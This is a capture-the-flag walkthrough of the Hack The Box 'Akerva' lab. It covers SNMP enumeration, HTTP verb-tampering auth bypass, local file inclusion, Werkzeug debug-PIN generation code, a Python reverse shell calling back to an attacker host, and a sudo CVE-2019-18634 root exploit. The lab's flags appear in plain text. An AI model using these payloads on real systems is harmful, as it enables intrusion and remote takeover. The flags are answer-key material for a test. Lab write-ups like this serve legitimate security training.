# HackTheBox — Akerva Pro Lab



## 01 Enumeration and Reconnaissance

Starting with Nmap to scan for open ports and services.

```bash
nmap -sC -sV -p22,80 -vv -oN nmap.txt 10.13.37.11

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4-alpha-47225
```

### UDP Ports

```bash
sudo nmap -sU -Pn --min-rate=10000 10.13.37.11

PORT    STATE SERVICE
161/udp open  snmp
```

First we enumerate Port 80:



It's a WordPress-based static website. Looking into the source code we find our first flag:



We also have SNMP (port 161/udp) open so we can use `snmpwalk` for enumeration.



The box isn't configured with MIBs so we can't read the OID names. Fix that first:

```bash
sudo nano /etc/snmp/snmp.conf
```



Install the MIB package:

```bash
sudo apt install snmp-mibs-downloader
```

Since `snmpwalk` is slow, use `snmpbulkwalk` instead:

```bash
snmpbulkwalk -v2c -c public 10.13.37.11 -m all | tee snmp.out
```

In the output we find our second flag and references to backup scripts:



```
HOST-RESOURCES-MIB::hrSWRunParameters.1234 = STRING: "-c /opt/check_devSite.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1235 = STRING: "/opt/check_backup.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1239 = STRING: "/var/www/html/scripts/backup_every_17minutes.sh AKERVA{IkN0w_SnMP@@@MIsconfigur@T!onS}"
HOST-RESOURCES-MIB::hrSWRunParameters.1240 = STRING: "/var/www/html/dev/space_dev.py"
```

## 02 HTTP Verb Tampering

Visiting the backup script endpoint requires authentication. Let's use Burp Suite:





Check available HTTP methods using `OPTIONS`:



We have POST, HEAD, GET available. Changing to `POST` bypasses the authentication entirely:



The backup script reveals our 3rd flag:

```bash
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
    ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
    echo "Erasing old backups..."
    rm -rf $SAVE_DIR/*

    echo "Backuping..."
    zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

    echo "Done..."
    sleep 1020
done
```

Key takeaways from the script:
- Backs up the entire website to a zip file
- Filename format: `backup_YYYYMMDDHHMMSS`
- Repeats every 17 minutes (1020 seconds)
- Backup is accessible at `/backups/`

## 03 Downloading the Backup

The backup filename changes every 17 minutes. Get the server time via HTTP headers:

```bash
curl -I http://akerva.htb

Date: Wed, 09 Oct 2024 06:26:20 GMT
```

Brute-force the minutes and seconds using `wfuzz`:

```bash
wfuzz -u http://akerva.htb/backups/backup_2024100909FUZZ.zip \
  -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt --hc 404

000002901:   200   82458 L   808129 W   20937179 Ch   "2900"
```

Download the backup:

```bash
wget http://akerva.htb/backups/backup_20241009092900.zip
```

## 04 Enumerating the Backup

Inside the backup we find a Flask application (`space_dev.py`) with credentials and our 4th flag:

```python
from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
    "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
}

@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port='5000', debug = True)
```

Credentials: `aas` / `AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}`



Directory fuzzing reveals 3 endpoints:

```bash
ffuf -u http://10.13.37.11:5000/FUZZ \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt

download  [Status: 401]
file      [Status: 401]
console   [Status: 200]
```

### Local File Inclusion

The `/file` endpoint takes a `filename` parameter — classic LFI:



### Werkzeug Debug Console

The `/console` endpoint is a Werkzeug debugger that requires a PIN:



## 05 Werkzeug PIN Exploit

To generate the PIN we need the **machine-id** and **MAC address**, both readable via the LFI.

### Machine ID

```
/etc/machine-id → 258f132cd7e647caaf5510e3aca997c1
```



### MAC Address

```
/sys/class/net/ens33/address → 00:50:56:b0:d1:03
```



### Converting MAC to decimal

```python
>>> print(0x005056b0d103)
345051812099
```

### Generating the PIN

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'aas',
    'flask.app',
    'Flask',
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc'
]

private_bits = [
    '345051812099',
    '258f132cd7e647caaf5510e3aca997c1'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                         for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

```bash
python3 exploit.py
256-167-349
```

## 06 Getting a Shell

Using the Werkzeug console with the PIN to get a reverse shell:

```python
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.16.4', 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(['/bin/sh', '-i'])
```

```bash
nc -nvlp 4444
connect to [10.10.16.4] from (UNKNOWN) [10.13.37.11] 54154
$ id
uid=1000(aas) gid=1000(aas) groups=1000(aas),24(cdrom),30(dip),46(plugdev)
```



Two more flags found in the home directory.

## 07 Privilege Escalation

After enumeration, checking the sudo version reveals a vulnerable version:

```bash
$ sudo --version
Sudo version 1.8.21p2
```

This version is vulnerable to [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634/) — a buffer overflow in sudo when `pwfeedback` is enabled.

Compile the exploit, transfer it, and run:

```bash
aas@Leakage:/tmp$ chmod +x exploit
aas@Leakage:/tmp$ ./exploit
[sudo] password for aas:
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(aas)
# cat /root/flag.txt
AKERVA{IkNow_Sud0_sUckS!}
```

7th flag obtained. Also found a `secured_note.md` in `/root/`:

## 08 Vigenere Cipher — Final Flag

The secured note contains a Base64 string:

```
R09BSEdIRUVHU0FFRUhBQ0VHVUxSRVBFRUVDRU9LTUtFUkZTRVNGUkxLRVJVS1RTVlBNU1NOSFNL
UkZGQUdJQVBWRVRDTk1ETFZGSERBT0dGTEFGR1NLRVVMTVZPT1dXQ0FIQ1JGVlZOVkhWQ01TWUVM
U1BNSUhITU9EQVVLSEUK
```

Decoding:

```bash
echo "R09BSEdIRUV..." | base64 --decode
GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE
```

This is a **Vigenere cipher**. First, check which alphabet letters are missing:

```python
s = "GOAHGHEEGSAEEHACEGULREPEEECEOKMKERFSESFRLKERUKTSVPMSSNHSKRFFAGIAPVETCNMDLVFHDAOGFLAFGSKEULMVOOWWCAHCRFVVNVHVCMSYELSPMIHHMODAUKHE"
missing = [c for c in "ABCDEFGHIJKLMNOPQRSTUVWXYZ" if c not in s]
print(missing)  # ['B', 'J', 'Q', 'X', 'Z']
```

Custom alphabet: `ACDEFGHIKLMNOPRSTUVWY`

Using [dcode.fr](https://www.dcode.fr/vigenere-cipher) with this custom alphabet:



Key found: `ILOVESPACE`

Decoded message:
```
WELLDONEFORSOLVING THISCHALLENGE YOU CAN SEND YOUR RESUME HERE AT RECRUITMENT AKERVA...
```

**Final flag: AKERVA{IKNOOOWVIGEEENERRRE}**

---

## Summary

| # | Flag | Technique |
|---|------|-----------|
| 1 | Source code flag | HTML source inspection |
| 2 | SNMP flag | SNMP misconfiguration / snmpbulkwalk |
| 3 | Verb tampering flag | HTTP verb tampering (POST bypass) |
| 4 | Script flag | Backup download + source code review |
| 5-6 | User flags | LFI + Werkzeug PIN exploit → shell |
| 7 | Root flag | CVE-2019-18634 sudo buffer overflow |
| 8 | Final flag | Base64 → Vigenere cipher decode |
